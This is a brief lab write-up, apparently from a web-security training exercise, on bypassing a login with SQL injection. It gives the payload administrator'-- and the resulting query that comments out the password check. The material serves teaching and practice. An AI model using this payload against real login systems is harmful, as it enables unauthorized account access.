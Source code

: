 # SQL Injection - Bypassing login functionallity
 This lab contains a SQL injection vulnerability in the login function.

## Challenge
To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. 

## Target:
Log into as the administrator using SQL Injection

## QUERY:
'''sql
SELECT * FROM users WHERE username='administrator'-- AND password='whateverpassword'
'''


In this instance, the payload is administrator'--
